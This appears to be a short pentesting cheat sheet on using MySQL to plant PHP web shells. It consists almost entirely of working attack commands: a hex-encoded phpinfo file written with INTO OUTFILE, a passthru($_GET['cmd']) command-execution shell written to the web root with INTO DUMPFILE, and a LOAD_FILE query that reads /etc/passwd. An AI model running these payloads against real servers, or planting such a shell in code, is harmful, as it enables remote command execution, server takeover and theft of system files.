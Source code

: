 # MySQL Webshell (PHP)

- use mysql outfile/ dumpfile function to upload a shell.

## Option 1

```
echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e

SELECT 0x3c3f70687020706870696e666f28293b203f3e INTO OUTFILE "/var/www/html/phpinfo.php"
```

## Option 2

```
SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/shell.php';
```

- use mysql loadfile to read file contents

```
SELECT LOAD_FILE('/etc/passwd');
```